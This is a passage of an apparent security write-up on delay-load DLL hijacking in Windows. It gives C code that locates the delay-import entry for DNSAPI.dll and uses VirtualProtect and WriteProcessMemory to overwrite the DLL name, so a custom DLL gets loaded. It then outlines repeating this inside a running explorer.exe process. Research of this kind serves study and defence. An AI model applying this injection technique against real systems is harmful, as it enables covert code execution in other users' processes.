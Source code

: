 ```
IMAGE_DELAYLOAD_DESCRIPTOR*
findDelayEntry(char *cDllName)
{
    PIMAGE_DOS_HEADER pImgDos = (PIMAGE_DOS_HEADER)GetModuleHandle(NULL);
    PIMAGE_NT_HEADERS pImgNt = (PIMAGE_NT_HEADERS)((LPBYTE)pImgDos + pImgDos->e_lfanew);
    PIMAGE_DELAYLOAD_DESCRIPTOR pImgDelay = (PIMAGE_DELAYLOAD_DESCRIPTOR)((LPBYTE)pImgDos + 
            pImgNt->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_DELAY_IMPORT].VirtualAddress);
    DWORD dwBaseAddr = (DWORD)GetModuleHandle(NULL);
    IMAGE_DELAYLOAD_DESCRIPTOR *pImgResult = NULL;

    // iterate over entries 
    for (IMAGE_DELAYLOAD_DESCRIPTOR* entry = pImgDelay; entry->ImportAddressTableRVA != NULL; entry++){
        char *_cDllName = (char*)(dwBaseAddr + entry->DllNameRVA);
        if (strcmp(_cDllName, cDllName) == 0){
            pImgResult = entry;
            break;
        }
    }

    return pImgResult;
}
```

Should be pretty clear what we're doing here.  Once we've got the correct table
entry, we need to mark the entry's DllName as writable, overwrite it with our
custom DLL name, and restore the protection mask:

```
IMAGE_DELAYLOAD_DESCRIPTOR *pImgDelayEntry = findDelayEntry("DNSAPI.dll");
DWORD dwEntryAddr = (DWORD)((DWORD)GetModuleHandle(NULL) + pImgDelayEntry->DllNameRVA);
VirtualProtect((LPVOID)dwEntryAddr, sizeof(DWORD), PAGE_READWRITE, &dwOldProtect);
WriteProcessMemory(GetCurrentProcess(), (LPVOID)dwEntryAddr, (LPVOID)ndll, strlen(ndll), &wroteBytes);
VirtualProtect((LPVOID)dwEntryAddr, sizeof(DWORD), dwOldProtect, &dwOldProtect);
```

Now all that's left to do is trigger the targeted function.  Once triggered, 
the delay helper function will snag the DllName from the table entry and load
the DLL via LoadLibrary.  

### Remote Process

The most interesting of cases is the running remote process.  For demonstration
here, we'll be targeting explorer.exe, as we can almost always rely on it to be
running on a workstation under the current user.

With an open handle to the explorer process, we must perform the same 
searching tasks as we did for the local process, but this time in a remote 
process.  This is a little more cumbersome, but the code can be found in the 
project repository for reference[3].  We simply grab the remote PEB, parse the
image and it's directories, and locate the appropriate delay entry we're
targeting.  
